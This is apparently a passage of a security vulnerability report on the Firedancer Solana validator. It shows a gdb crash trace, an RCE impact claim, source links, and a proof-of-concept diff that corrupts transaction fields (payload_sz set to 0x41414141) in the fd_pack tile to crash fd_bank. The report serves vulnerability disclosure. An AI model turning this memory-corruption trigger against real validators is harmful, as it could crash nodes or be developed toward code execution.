```shell
89	        vinsertf128 ymm8, ymm8, xmmword ptr [r12+rdx-0x40], 0x01
(gdb) p/x $r12
$1 = 0x328680000d2d
(gdb) p/x $rdx
$2 = 0x40
(gdb) bt
#0  blake3_hash_many_avx2 () at c/blake3_avx2_x86-64_unix.S:89
#1  0x0000000000000000 in ?? ()
(gdb)
```


## Impact Details
Process-to-process memory corruption may lead to the process-to-process RCE between sandboxed tiles.


## References
https://github.com/firedancer-io/firedancer/blob/e60d9a6206efaceac65a5a2c3a9e387a79d1d096/src/app/fdctl/run/tiles/fd_bank.c#L126

https://github.com/firedancer-io/firedancer/blob/e60d9a6206efaceac65a5a2c3a9e387a79d1d096/src/app/fdctl/run/tiles/fd_bank.c#L181

https://github.com/firedancer-io/firedancer/blob/e60d9a6206efaceac65a5a2c3a9e387a79d1d096/src/disco/bank/fd_bank_abi.c#L284
        
## Proof of concept
The attack surface of this vulnerability is when an attacker has arbitrary code execution rights over `fd_pack`, and then launches a process to process RCE attack on `fd_bank`. Therefore, we modify the relevant code of the `fd_pack` process to simulate the situation where the attacker has already obtained the ability to execute code.

The project side realized that the modified content shown by the git diff needs to be synchronized to the local environment. By executing `make -j fddev` and `sudo fddev --no-sandbox`, a crash can be triggered.

```shell
diff --git a/src/app/fdctl/run/tiles/fd_pack.c b/src/app/fdctl/run/tiles/fd_pack.c
index 29b27221..3ef53278 100644
@@ -394,6 +396,35 @@ after_credit( void *             _ctx,
       trailer->bank = ctx->leader_bank;

       ulong sig = fd_disco_poh_sig( ctx->leader_slot, POH_PKT_TYPE_MICROBLOCK, (ulong)i );
+
+
+      fd_txn_p_t * my_txn = (fd_txn_p_t *)microblock_dst;
+      //poc1
+      my_txn->payload_sz=0x41414141;
+      //poc2
+      //TXN(my_txn)->message_off = 0x4141;
+      //poc3 rust crash
+      //TXN(my_txn)->instr_cnt = 0x4141;
+      /*
+       * thread '<unnamed>' panicked at /home/ht/firedancer/solana/sdk/program/src/message/sanitized.rs:188:22:
+       * program id index is sanitized
+       * note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
+       * ERR     07-29 12:40:17.435789 872498 f17  0    metrics/src/metrics.rs(283): datapoint: panic program="validator" thread="?" one=1i message="panicked at /home/ht/firedancer/solana/sdk/program/src/message/sanitized.rs:188:22:
+       * program id index is sanitized" location="/home/ht/firedancer/solana/sdk/program/src/message/sanitized.rs:188:22" version="0.101.11817 (src:e60d9a62; feat:4215500110, client:Firedancer)"
```